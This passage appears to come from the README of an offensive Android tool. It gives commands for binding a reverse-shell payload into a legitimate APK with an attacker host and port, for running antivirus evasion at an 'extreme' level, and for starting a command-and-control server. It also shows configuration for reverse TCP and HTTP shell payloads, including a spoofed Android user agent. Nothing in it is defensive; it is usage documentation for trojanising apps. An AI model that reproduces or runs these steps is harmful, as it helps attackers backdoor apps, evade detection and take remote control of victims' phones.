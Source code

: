 ### APK Binding with Specific Method
```bash
python3 core/apk_binder.py \
    --apk original.apk \
    --lhost 192.168.1.100 \
    --lport 4444 \
    --method 1 \
    --evasion high
```

### AV Evasion Processing
```bash
python3 core/av_evasion.py \
    --level extreme \
    --input payload_source \
    --output evaded_payload
```

### C2 Server with Custom Configuration
```bash
python3 core/c2_server.py \
    --port 8080 \
    --protocol 1 \
    --log-dir custom_logs
```

## Configuration

### Core Configuration (`config/core.conf`)
```ini
[general]
debug = false
verbose = false
auto_cleanup = true

[paths]
output_dir = output
log_dir = logs
temp_dir = output/temp

[evasion]
default_level = medium
enable_encryption = true
enable_obfuscation = true
```

### Payload Configuration (`config/payloads.conf`)
```ini
[tcp_reverse]
default_port = 4444
timeout = 30
retry_count = 3

[http_shell]
default_port = 8080
user_agent = Mozilla/5.0 (Android)
timeout = 60
```
